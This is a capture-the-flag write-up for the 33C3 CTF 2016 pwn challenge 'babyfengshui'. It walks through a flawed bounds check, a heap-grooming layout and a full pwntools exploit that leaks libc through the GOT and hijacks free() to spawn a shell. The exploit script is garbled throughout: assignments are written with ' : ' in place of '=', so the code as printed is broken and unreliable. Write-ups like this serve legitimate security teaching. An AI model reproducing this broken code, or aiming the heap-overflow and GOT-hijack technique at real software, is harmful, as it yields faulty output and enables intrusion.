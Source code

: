 ```yaml
---
type: ctf
title : 33C3 CTF 2016 - babyfengshui
tags: [33C3 CTF, babyfengshui]
date : 2016-12-30
author: Eno Leriand
featuredImage: https://i.ytimg.com/vi/XuzuFUGuQv0/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLC-sS21UU4ZN8mo8p1JTvi1KiZUew
---
```


**Category:** pwn
**Points:** 150

32 bit ELF, with Partial RELRO, canary & NX enabled, No PIE  

program menu:
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
Here's the data structure of a user:
```c 
struct user{
    char* desc;
    char name[124];
};
```
The program will free `user->desc` & `user` while deleting a user. It also clear the pointer of the `user`, so there's no Use-After-Free vulnerability. 

The program has some strange protection while setting the user's description:
```c
// users : struct user *users[]
if ( &users[id]->desc[text_len] >= &users[id] - 4 )
{
    puts("my l33t defenses cannot be fooled, cya!");
    exit(1);
}
printf("text: ");
read_n(users[id]->desc, text_len + 1);
```
So `user->desc + text_len` must < `user` (both `user->desc` and `user` are pointers). Guess it use this protection to avoid heap overflow.

But what if we have the following heap memory layout?
```

            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```
According to the protection, `userD->desc + text_len` should less than `userD`, **which means it will be ok to overwrite the whole `userB` and `userC`**.

It is possible to arrange the above heap memory layout if we're familiar with malloc's memory allocation. We can then exploit the heap overflow vulnerability and modify the `userB->desc` pointer, making us able to do the **read/write anywhere** attack. After that is pretty simple, we leak the libc's base address and hijack `free`'s GOT to get the shell.

```python exp_baby.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "78.46.224.83"
PORT : 1456
ELF_PATH : "./babyfengshui_noalarm"
LIBC_PATH : "./libc-2.19.so"

# setting 
context.arch : 'i386'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)
libc : ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc : "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 : user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr : libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`
